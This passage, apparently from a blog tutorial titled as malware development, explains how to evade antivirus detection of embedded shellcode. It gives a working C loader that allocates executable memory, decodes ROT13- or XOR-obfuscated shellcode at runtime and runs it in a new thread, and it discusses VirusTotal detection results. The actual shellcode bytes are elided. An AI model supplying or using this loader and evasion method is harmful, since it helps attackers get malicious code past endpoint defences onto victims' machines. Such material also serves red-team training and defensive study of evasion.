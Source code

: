 Detection rate is slightly lower for our executable.

## Shellcode obfuscation
First thing which comes in mind is to modify the shellcode to evade static signatures based on its content.

We can try the simplest "encryption" - apply ROT13 cipher to all bytes of embedded shellcode - so `0x41` becomes `0x54`, `0xFF` becomes `0x0C` and so on. During execution the shellcode will get "decrypted" by substracting a value of `0x0D` (13) from every byte.

The code looks like the following:
```c
##include <Windows.h>

void main()
{
	const char shellcode[] = "\x09\xf5\x8f (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) - 13;
	}
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

We can also use XOR encryption (with constant single-byte key) instead of Caesar Cipher:
```c
for (int i = 0; i < sizeof shellcode; i++)
{
	((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) ^ '\x35';
}
```

However that didn't help much:
	
![VT xor](../images/2020-03-30-Malware_development_part_1/VT_xor.png)

## Making the app more legitimate
### Analyzing "empty" executable
Analyzing malware detection systems behavior on VirusTotal we may notice that even a program that does basically nothing gets flagged as malicious by several AV engines.
